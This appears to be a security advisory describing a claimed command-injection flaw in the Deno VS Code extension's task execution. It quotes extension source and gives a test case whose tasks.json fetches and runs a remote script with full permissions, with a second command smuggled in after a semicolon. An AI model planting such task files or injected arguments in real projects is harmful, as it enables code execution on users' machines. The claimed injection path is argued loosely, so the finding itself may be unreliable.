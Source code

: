 - Vulnerability Name: **Command Injection in Deno Task Execution**
- Description:
    - An attacker can craft a malicious `tasks.json` file within a Deno project.
    - This malicious `tasks.json` file can contain a Deno task definition with a command that includes injected system commands.
    - When a user opens this malicious Deno project in VS Code and executes the malicious task (either via the tasks sidebar or by selecting and running a task definition in a `tasks.json` file), the injected commands will be executed by the system.
- Impact:
    - **High**
    - Arbitrary command execution within the user's VS Code environment, running with the privileges of the VS Code process.
    - This could allow an attacker to read sensitive files, modify project files, install malware, or perform other malicious actions on the user's system.
- Vulnerability Rank: **High**
- Currently Implemented Mitigations:
    - None. The extension directly executes commands defined in `tasks.json` without sanitization.
- Missing Mitigations:
    - **Input Sanitization:** The extension should sanitize or validate the `command` and `args` properties of task definitions in `tasks.json` to prevent command injection.
    - **Sandboxing/Isolation:** Ideally, task execution should be sandboxed or isolated to limit the potential impact of command injection vulnerabilities. However, for VS Code extensions, full sandboxing might be challenging.
    - **User Confirmation:** Before executing tasks, especially those defined in workspace files like `tasks.json`, the extension could prompt the user for confirmation, especially if the command looks suspicious or contains potentially dangerous characters.
- Preconditions:
    - The user must have the "Deno for Visual Studio Code" extension installed.
    - The user must open a malicious Deno project in VS Code that contains a crafted `tasks.json` file.
    - The user must execute the malicious task, either via the tasks sidebar or by selecting and running a task definition in a `tasks.json` file.
- Source Code Analysis:
    - **`client\src\tasks_sidebar.ts` - `DenoTasksTreeDataProvider.#runSelectedTask`:**
        ```typescript
        async #runSelectedTask() {
            if (!window.activeTextEditor) {
                window.showErrorMessage("No active text editor.");
                return;
            }
            const taskDefinitions = readTaskDefinitions(
                window.activeTextEditor.document,
            );
            if (!taskDefinitions) {
                window.showErrorMessage("Could not read task definitions.");
                return;
            }
            const anchor = window.activeTextEditor.selection.anchor;
            for (const task of taskDefinitions.tasks) {
                if (
                    anchor.isAfterOrEqual(task.nameRange.start) &&
                    anchor.isBeforeOrEqual(task.valueRange.end)
                ) {
                    const sourceUri = window.activeTextEditor.document.uri;
                    const workspaceFolder = (workspace.workspaceFolders ?? []).find((f) =>
                        sourceUri.toString().startsWith(f.uri.toString())
                    ) ?? workspace.workspaceFolders?.[0];
                    if (!workspaceFolder) {
                        window.showErrorMessage("No workspace folder to use as task scope.");
                        return;
                    }
                    await tasks.executeTask(buildDenoConfigTask(
                        workspaceFolder,
                        await getDenoCommandName(),
                        task.name,
                        task.command, // Task.command is taken directly from tasks.json
                        sourceUri,
                    ));
                    return;
                }
            }
            window.showErrorMessage("Could not find a Deno task at the selection.");
        }
        ```
        - This function is responsible for running a selected task from the `tasks.json` file.
        - It calls `readTaskDefinitions` to parse task definitions from the active text editor's document (which could be `tasks.json`).
        - It iterates through the parsed tasks and if a task is selected (based on cursor position), it extracts `task.command` directly from the parsed definition.
        - It then calls `tasks.executeTask` with this `task.command` without any sanitization or validation.
    - **`client\src\util.ts` - `readTaskDefinitions`:**
        ```typescript
        export function readTaskDefinitions(
          document: TextDocument,
          content = document.getText(),
        ) {
          // ...
          for (const taskProperty of tasksValue.children) {
            // ...
            let command;
            if (taskValue.type == "string") {
              command = taskValue.value; // Command is directly taken from JSON string value
            } else if (taskValue.type == "object" && taskValue.children) {
              const commandProperty = taskValue.children.find((n) =>
                n.type == "property" && n.children?.[0]?.value == "command"
              );
              if (!commandProperty) {
                continue;
              }
              const commandValue = commandProperty.children?.[1];
              if (!commandValue || commandValue.type != "string") {
                continue;
              }
              command = commandValue.value; // Command is directly taken from JSON string value
            } else {
              continue;
            }
            tasks.push({
              name: taskKey.value,
              nameRange: new Range(
                document.positionAt(taskKey.offset),
                document.positionAt(taskKey.offset + taskKey.length),
              ),
              command, // Unsanitized command is stored in task definition
              valueRange: new Range(
                document.positionAt(taskValue.offset),
                document.positionAt(taskValue.offset + taskValue.length),
              ),
            });
          }
          // ...
        }
        ```
        - This function parses `tasks.json` content using `jsoncParser`.
        - It extracts the `command` value from the JSON structure, whether it's a simple string or within an object.
        - The extracted `command` string is directly stored in the `tasks` array without any sanitization or validation.

    - **Visualization:**

    ```
    User Action: Execute Deno Task in VS Code (via sidebar or tasks.json)
        |
        V
    DenoTasksTreeDataProvider.#runSelectedTask
        |
        V
    readTaskDefinitions (parses tasks.json, extracts command)
        |
        V
    tasks.executeTask (executes command from tasks.json without sanitization)
        |
        V
    System Command Execution (potential command injection)
    ```
- Security Test Case:
    1. Create a new Deno project directory.
    2. Inside the project directory, create a `.vscode` folder.
    3. Inside the `.vscode` folder, create a `tasks.json` file with the following content:
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "label": "Malicious Task",
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "-r",
                "https://example.com/malicious_script.ts ; calc.exe"
              ]
            }
          ]
        }
        ```
        *(Note: `calc.exe` is used as a harmless example payload for Windows. For other platforms, you can use commands like `touch /tmp/pwned` or `open /Applications/Calculator.app`)*
    4. Open the project directory in VS Code.
    5. Open the `tasks.json` file in the editor.
    6. Place the cursor within the "Malicious Task" definition in `tasks.json`.
    7. Run the command "Deno: Run Selected Task" from the command palette.
        *Alternatively, you can open the "Deno Tasks" sidebar (if it's visible) and try to execute "Malicious Task" from there.*
    8. Observe that the calculator application (`calc.exe` on Windows, or equivalent command on other platforms) is launched, demonstrating arbitrary command execution.
    9. Additionally, observe that Deno attempts to run the script from `https://example.com/malicious_script.ts`, which may or may not exist, but the injected command `; calc.exe` will still be executed after the `deno run` command.

This test case demonstrates that an attacker can inject and execute arbitrary commands by crafting a malicious `tasks.json` file, and that the VS Code Deno extension executes these tasks without proper sanitization, leading to a command injection vulnerability.

